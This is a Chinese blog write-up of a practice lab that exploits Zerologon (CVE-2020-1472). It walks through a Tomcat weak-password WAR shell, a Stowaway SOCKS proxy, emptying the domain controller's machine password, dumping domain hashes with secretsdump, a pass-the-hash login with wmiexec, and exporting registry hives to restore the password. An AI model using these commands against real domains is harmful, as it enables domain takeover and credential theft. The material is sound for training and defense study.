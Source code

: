 #  打靶训练——Netlogon域提权（CVE-2020-1472）   
原创 joyboy  fly的渗透学习笔记   2024-05-06 22:06  
  
**环境搭建：**  
  
攻击机kali（192.168.1.109）  
  
win server2008（192.168.1.104）双网卡（域内机器）  
  
域控server2016：xxxx  
  
**漏洞描述：**  
  
CVE-2020-1472是一个windows域控中严重的远程权限提升漏洞  
，影响Windows Server 2008R 2至Windows Server 2019的多个版本系统，只要攻击者能访问到目标域控井且知道域控计算机名即可利用该漏洞.该漏洞不要求当前计算机在域内，也不要求当前计算机操作系统为windows，该漏洞的稳定利用方式为重置目标域控的密码， 然后利用城控凭证进行Dc sync获取域管权限后修复域控密码，之所以不直接使用坏控凭证远程执行命令，是因为城控账户是不可以登录的，但是域控具备Dc sync权限， 可以获取域内任意用户的凭证。  
  
漏洞利用过程中会重置域控存储在域中(ntds.dit)的凭证，而域控存储在域中的凭证与本地的注册表/lsass中的凭证不一致时，会导致目标域控脱域，所以在重置完域控凭证后要尽快恢复。  
  
**打靶正文：**  
  
1、端口扫描  
  
目标有web资产：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdaTdNEy2bLvib4yeLQAsWticgibHY7YoHiaWItM3ydQc7pHzuD1Vh8ibdB4WA/640?wx_fmt=png&from=appmsg "")  
  
2、tomcat弱口令上传war包getshell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectda4qbsY3qMlNrT5oRPxMOLbicYNDSiaArJYaFoOpDiax9bribMhqYfqQFF0w/640?wx_fmt=png&from=appmsg "")  
  
3、收集主机信息  
  
通过netstat、ipconfig、route可收集到主机可通往192.168.4.0网段；  
  
通过systeminfo可查询主机是域内机器；  
  
通过net time /doamin可查询域控主机；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdaFSd2NNEHuC8ydMyianqHXSMb3HbrNpQycKibcAdemCKmEub1WAfONp6A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdaqDgw2HHrH6fHNGG96gLh5OBshCiacEMnG02vUpuM9cm7IiaIPyAicE7KQ/640?wx_fmt=png&from=appmsg "")  
  
定位域控：  
```
nslookup -q=srv _ldap._tcp.dc._msdcs.xiaodi.vpc
或
net time /domain
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdatBbqSJZXgPK9ln9gEtJHBerictz2Ya3rTiahMTr6vqNjiacWJ0bvSgLbw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdauAemKkLJJkgUJ5cAaOLE0WDElEBgTJlSKMqn7NAWTMBBNDzPE15Utw/640?wx_fmt=png&from=appmsg "")  
  
域控：dc.xiaodi.vpc  ip: 192.168.4.20  
  
4、做代理  
  
使用stowaway做代理：  
  
目标机器执行：  
  
windows_x64_agent.exe -l 192.168.1.104:4455 -s joyboy  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdaugEvibets4eZTKJltIkP1pZseAW7v7VKa3PTZYGmLYvJGeReMLHFRFg/640?wx_fmt=png&from=appmsg "")  
  
攻击机执行：  
  
./linux_x64_admin -c 192.168.1.104:4455 -s joyboy  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdav6NWxJ1OqpmudMIaDdZtBV8VjTxUOw6j5rDia8ovlHbD3SZ2yNLCKzA/640?wx_fmt=png&from=appmsg "")  
  
开启socks代理  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdapziaXBicotroXV3LIznHfPyiaZ7c6hTsmTQovIrSNv9FibQ4CQibRUfQAKw/640?wx_fmt=png&from=appmsg "")  
  
配置socks代理：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wAu6BscU3AWDicWp4XCJ4r5pnDOUgtiaTC8MwKGbTricKn0qMyP0t6uODrw/640?wx_fmt=png&from=appmsg "")  
  
5、打域控  
  
扫描域控是否存在  
Zerologon  
(CVE-2020-1472)漏洞  
  
工具准备：  
```
 git clone https://github.com/SecuraBV/CVE-2020-1472 #下载POC，用于检测是否存在CVE-2021-1472
 git clone https://github.com/dirkjanm/CVE-2020-1472 #下载EXP，用于置空域控密码
 git clone https://github.com/risksense/zerologon #用于恢复原始hash，防止脱域等风险
 git clone https://github.com/SecureAuthCorp/impacket #选择性下载网络协议包impacket，kali自带。若下载，需要pip install . 来安装
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wAr1UCeSVMicPsFKSsSTC6oPwKRY6iafowyicWmqvrTTHgJVfsjyreLetRA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wAZbic7YrAZHkV8uBrxXRJ5HmbG09nO0ZZfpbEL1IC7M2icsTyL1EOicbTw/640?wx_fmt=png&from=appmsg "")  
  
使用poc结果显示目标存在漏洞！！！  
  
使用exp置空域控密码：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wA0KYm0NuMsKicjJCDUWTpDQiaK31lgziaWmSAbs68mXWnNmzndKwrhKBXg/640?wx_fmt=png&from=appmsg "")  
  
通过secresdump来获取域控hash  
```
proxychains4 secretsdump.py 'xiaodi.vpc/dc$@xiaodi.vpc' -just-dc -no-pass
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wAIkwWib7zSvklkzu8m7250G1TBInr0Hy99ic84jN8ySr3kDq0wLkA6lwQ/640?wx_fmt=png&from=appmsg "")  
  
使用wmiexec登录域控：  
```
proxychains4 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5e7f9efc2634f59c2fab89e99c89afd1 xiaodi.vpc/administrator@192.168.4.20
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wAqeUVATQmznXwpff2khRpoOXVSYJt7yDT8KxutITKRpvk12xcibiaOT4A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wA6EHTk9kjo7oziaibyduc4mdhicYlJ9pm2BUlUItv3wkEnAg33n3whnTicw/640?wx_fmt=png&from=appmsg "")  
  
  
6、恢复域控密码  
  
在域控主机上从注册表导出hash文件，并下载到本地  
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
reg save HKLM\SECURITY security.hive

lget sam.hive
lget security.hive
lget system.hive
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectdaEuRlvY0oGiaDhmXibFcM6xUeZam8eiarvZByicerjARyD4O41XYu3N13Rw/640?wx_fmt=png&from=appmsg "")  
  
使用secretsdump读取下载到本地的hash文件,获取域控机器账户置空前的原始hash。  
```
secretsdump.py -sam sam.hive -security security.hive -system system.hive LOCAL
```  
  
记住这个32位hash![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6qLRibfr6L22IWwKNnRectda3ey9TGqKRZjItWSNXQKpLoEuTWheQvYyqzVrQZHq9HicAFwibJTAF1cg/640?wx_fmt=png&from=appmsg "")  
  
  
使用hash恢复工具，并用命令恢复原来的密码:  
```
proxychains4 python3 reinstall_original_pw.py dc 192.168.4.20 f44b3f823218f4eaa005a77b16186ae
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wA6ejKH250aHEibgXHQ54K8nNSB7ngYefkdSDDOkvaITQavtKGLw7F5xw/640?wx_fmt=png&from=appmsg "")  
  
无法使用空密码攻击，成功恢复密码：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaqVyfOadia6q1wL9CFOef3YMWfgtbE9wAPsUs5JZs2Iur3WXrNYH6zkYGO4icCiaY4zaxTmh9KXOEHQWeKwvQu9ng/640?wx_fmt=png&from=appmsg "")  
  
  
  
